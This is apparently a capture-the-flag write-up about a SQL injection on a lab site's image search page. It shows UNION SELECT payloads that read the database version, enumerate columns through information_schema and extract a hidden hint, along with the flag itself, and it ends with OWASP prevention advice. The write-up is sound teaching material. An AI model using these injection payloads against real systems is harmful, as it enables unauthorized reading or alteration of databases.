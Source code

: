 ID: -1 UNION SELECT title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

## How we found the flag
By doing sql inject on the memebers page (/index.php?page=searchimg), we can find the database table schema, including table schema names, table names and column names.

### Find all column names on the image table

We are interested in finding all user information. First, we can find out database version with `1 UNION SELECT 1, version() limit 1,1`, the DB version is `5.5.64-MariaDB-1ubuntu0.14.04.1`.

> INFORMATION_SCHEMA provides access to database metadata (mysql), see [doc](https://dev.mysql.com/doc/refman/8.3/en/information-schema-table-reference.html).

Get all column names with `-1 UNION SELECT table_name, column_name FROM information_Schema.columns where table_schema=DATABASE()`, the table is called "list_images", and the avalaible columns are "id, url, title, comment".


### Look for information for exploiting
When trying `-1 UNION SELECT title, comment from list_images `, the output becomes interesting:

```
ID: -1 UNION SELECT title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

### Follow the hint
Decrypt `1928e8083cf461a51303633093573c46` with https://www.dcode.fr/md5-hash, we get `albatroz`, then encrypt "albatroz" with sh256, the result is the flag `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`


## How to exploit the breach
- Get sensitive information from the database, modify or even delete entries.

## What's the correct way
[doc](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
> Stop writing dynamic queries with string concatenation.
> Prevent malicious SQL input from being included in executed queries with Parameterized Queries.
